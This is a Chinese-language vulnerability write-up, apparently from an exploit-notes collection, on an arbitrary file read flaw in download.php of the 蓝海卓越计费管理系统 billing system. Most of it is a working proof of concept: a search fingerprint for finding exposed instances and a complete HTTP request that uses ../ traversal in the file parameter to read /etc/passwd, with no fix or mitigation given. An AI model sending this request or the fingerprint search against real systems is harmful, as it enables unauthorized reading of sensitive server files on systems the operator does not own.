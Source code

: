 # 

# 蓝海卓越计费管理系统 download.php 任意文件读取漏洞

## 漏洞描述

蓝海卓越计费管理系统 download.php文件存在任意文件读取漏洞，攻击者通过 ../ 遍历目录可以读取服务器上的敏感文件

## 漏洞影响

```
蓝海卓越计费管理系统
```

## 网络测绘

```
title=="蓝海卓越计费管理系统"
```

## 漏洞复现

登录页面如下



![](./images/202202101852354.png)



出现漏洞的文件为 download.php ，其中 file参数 存在用户可控



发送如下请求包



```plain
GET /download.php?file=../../../../../etc/passwd HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=qkoqsiilc4dol8s4e9d7ta15g7; mylang=zh_s

Connection: close
```



![](./images/202202101852942.png)

## 
